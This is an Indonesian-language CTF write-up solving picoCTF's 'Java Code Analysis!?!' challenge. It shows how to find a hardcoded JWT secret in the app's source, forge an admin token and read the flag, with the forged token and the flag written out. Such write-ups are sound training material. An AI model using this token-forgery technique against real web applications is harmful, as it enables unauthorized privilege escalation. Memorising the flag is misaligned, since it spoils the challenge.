 # Java Code Analysis!?!
- Link: https://play.picoctf.org/practice/challenge/355?category=1&page=4

## Tantangan
BookShelf Pico, my premium online book-reading service.
I believe that my website is super secure. I challenge you to prove me wrong by reading the 'Flag' book!
Additional details will be available after launching your challenge instance.

## Penyelesaian
- Tekan tombol **Launch Instance** untuk memulai tantangan

- Buka URL http://saturn.picoctf.net:63867/ di browser

- Login dengan menggunakan username `user` dan password `user`

- Klik kanan halaman lalu pilih **Inspect**

- Pergi ke tab **Storage**

- Double klik value **auth-token** untuk mengcopy jwt token
```sh
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiRnJlZSIsImlzcyI6ImJvb2tzaGVsZiIsImV4cCI6MTcwODU3NTExNiwiaWF0IjoxNzA3OTcwMzE2LCJ1c2VySWQiOjEsImVtYWlsIjoidXNlciJ9.b19SOCP4Av-LRDwqNdYZ_z8O_43mPwDparuA8zZ3UEI
```

- Buka web https://jwt.io/ di tab baru lalu paste di field **Encoded**

- Disini kita memerlukan secret untuk signature. Jadi kita perlu mengunduh source code aplikasi tersebut
```sh
wget https://artifacts.picoctf.net/c/483/bookshelf-pico.zip
```

- Unzip file `bookshelf-pico.zip`
```sh
unzip bookshelf-pico.zip -d bookshelf
```

- Cari file yang mengandung JWT
```sh
cd bookshelf
grep -R jwt
```

- Di file `JwtService.java` terdapat variabel `SECRET_KEY`
```sh
mousepad src/main/java/io/github/nandandesai/pico/security/JwtService.java
```

- Sekarang kita cari file yang mengandung secret
```sh
grep -R secret
```

- Di file `SecretGenerator.java` terdapat random string `1234`
```sh
mousepad src/main/java/io/github/nandandesai/pico/security/SecretGenerator.java
```

- Kembali ke halaman web https://jwt.io/ sebelumnya, ubah role menjadi `Admin`, userId menjadi `2` dan email menjadi `admin`

- Masukkan secret `1234` pada bagian verify signature

- Copy JWT token baru yang tergenerate di field **Encoded**
```sh
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiQWRtaW4iLCJpc3MiOiJib29rc2hlbGYiLCJleHAiOjE3MDg1NzUxMTYsImlhdCI6MTcwNzk3MDMxNiwidXNlcklkIjoyLCJlbWFpbCI6ImFkbWluIn0.9F1zxX2zWY6N3sxPRy_BprirOEI_FALzgPI1mBGDLv4
```

- Kembali ke web http://saturn.picoctf.net:63867/ ubah value token `auth-token` dengan token JWT diatas dan token payload menjadi sebagai berikut
```sh
{"role":"Admin","iss":"bookshelf","exp":1708575116,"iat":1707970316,"userId":2,"email":"admin"}
```

- Refresh halaman

- Klik gambar tulisan FLAG

- Flag
```sh
picoCTF{w34k_jwt_n0t_g00d_42f5774a}
```